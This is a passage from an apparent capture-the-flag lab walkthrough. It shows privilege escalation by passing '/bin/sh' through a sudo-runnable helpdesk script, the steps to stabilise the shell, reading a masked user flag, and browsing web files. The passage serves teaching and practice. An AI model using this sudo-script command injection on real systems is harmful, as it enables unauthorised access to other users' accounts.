 so the “message” input will be passed right to the #!/bin/bash, which can be used to spawn a new shell for me as “apaar”. So let’s run this script again, but this time, input the msg as “/bin/bash

```jsx
www-data@ubuntu:/$ sudo -u apaar /home/apaar/.helpline.sh 

Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with: apaar
Hello user! I am apaar,  Please enter your message: /bin/sh
id
uid=1001(apaar) gid=1001(apaar) groups=1001(apaar)
```

we got another shell as apaar. let’s stabilize the shell we just got

```jsx
STEP 1:
pyhton3 -c 'import pty;pty.spawn ("/bin/bash")'

STEP 2:
Press CTRL + Z to background process and get back to your host machine

STEP 3:
stty raw -echo; fg

STEP 4:
export TERM=xterm
```

after our shell hae been stabilized we now have access to read local .txt

```jsx
apaar@ubuntu:~$ cat local.txt 
{USER-FLAG: *******************************}
apaar@ubuntu:~$
```

A machine with webserver can highly be vulnerable to information leaked in “**/var/www/”**. Let’s **cd** to this folder to look for sensitive information.

```bash
apaar@ubuntu:/var/www$ ls
files  html
apaar@ubuntu:/var/www$ cd files
apaar@ubuntu:/var/www/files$ ls
account.php  hacker.php  images  index.php  style.css
apaar@ubuntu:/var/www/files$
```

```bash
apaar@ubuntu:/var/www/files$ cat hacker.php 
<html>
<head>
<body>
<style>
body {
  background-image: url('images/002d7e638fb463fb7a266f5ffc7ac47d.gif');
}
h2
{
        color:red;
        font-weight: bold;
}
h1
{
        color: yellow;
        font-weight: bold;
}
```